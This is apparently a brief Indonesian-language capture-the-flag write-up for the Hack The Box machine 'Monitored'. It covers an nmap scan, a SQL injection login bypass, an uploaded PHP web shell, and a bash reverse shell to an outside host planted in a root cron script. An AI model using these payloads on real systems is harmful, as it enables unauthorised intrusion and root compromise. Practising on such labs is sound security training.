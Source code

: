 # 👀 HTB: Monitored

## 📡 Nmap Scan

```bash
nmap -sC -sV -p- -oN nmap-initial.txt 10.10.11.148
```
→ Menemukan port:

- 80 (Apache)
- 443 (HTTPS dengan TLS self-signed)


## 🔍 Web Enumeration

- Website memuat dashboard monitoring dengan login.
- SQL Injection ditemukan di form login:
```sql
' OR 1=1 --
```
→ Login bypass berhasil!


## 🕳️ File Upload Abuse

- Upload file `.php` dalam dashboard dan akses shell.
```bash
<?php echo shell_exec($_GET['x']); ?>
```


### 🧠 Privilege Escalation

- Cek `pspy` → ditemukan skrip dijalankan sebagai root secara periodik.
```bash
/home/user/scripts/cleanup.sh
```

→ Tambahkan baris:

```bash
bash -i >& /dev/tcp/10.10.14.99/4444 0>&1
```
→ Reverse shell didapat sebagai root.
Flag: `HTB{r00t_und3r_surv3illance}`